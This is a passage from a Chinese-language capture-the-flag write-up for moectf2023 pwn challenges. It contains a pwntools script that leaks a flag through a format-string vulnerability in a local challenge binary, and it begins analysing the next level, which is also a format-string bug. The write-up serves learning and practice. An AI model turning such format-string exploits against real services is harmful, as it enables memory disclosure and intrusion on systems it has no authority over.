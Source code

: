 exp:

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 

offset = 7 # flag的偏移
flag = ""
for i in range(0, 20):
    sh = remote("localhost", 44129)
    sh.sendline(b'%' + str(i + offset).encode() + b'$p') # 把flag以16进制接收
    try:
        sh.recvuntil(b'0x')
    except EOFError as e:
        break
    d = int(sh.recv()[:8], 16)
    for j in range(4):
        flag += chr(d & 0xff) # 处理flag字符
        d >>= 8
print(flag)
# 应该有更好的接收方式
```

## format_level1

checksec打开如下 :

![image-20230822185633504](./moectf2023-pwn-wp.assets/image-20230822185633504.png)

可以看到没有开启PIE。在IDA中打开进到talk函数中可以看到存在格式化字符串漏洞：

![image-20230822210805017](./moectf2023-pwn-wp.assets/image-20230822210805017.png)



通过动态调试可以找到偏移量为7。为了打败龙我们可以将龙的血量和攻击都修改为0。找到龙的地址和结构体的组成：

